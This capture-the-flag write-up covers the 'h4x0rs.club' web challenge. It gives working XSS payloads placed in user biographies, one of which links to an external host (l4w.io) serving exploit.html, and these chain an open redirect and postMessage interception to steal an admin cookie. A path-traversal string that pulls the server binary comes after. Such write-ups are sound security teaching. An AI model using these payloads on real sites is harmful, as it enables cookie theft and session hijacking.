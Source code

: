 # h4x0rs.club part 2

## https://h4x0rs.club/game/

![index](index.png)

```
Get document .cookie of the administartor.

h4x0rs.club

backend_www got backup at /var/www/html.tar.gz

Hint: Get open-redirect first, lead admin to the w0rld!
```

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

There is DOM-XSS at `client.js` when setting `title` on `badges` function. CSP contains `strict-dynamic`, so you can just simply inject `'><script>...</script>`

To do it, take a look at the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

![evil postmessage](h4x0rs.club.2.png)

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report></iframe>' id=report-btn></a>
```

`<iframe>` with a local src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`

## Flag
`flag{postman_1n_the_middl3}`

# h4x0rs.club part 3

You can get the binary by abusing `badges` action with filename: `../../../../../../proc/self/exe`

I really like my idea behind this one. Pwn the binary with full mitigations shipped. 

Hopefully someone can write about it :(

## Other writeups
https://gist.github.com/paul-axe/869919d4f2ea84dea4bf57e48dda82ed
https://github.com/lbherrera/writeups/tree/master/0ctf_quals-2018/h4x0rs.club
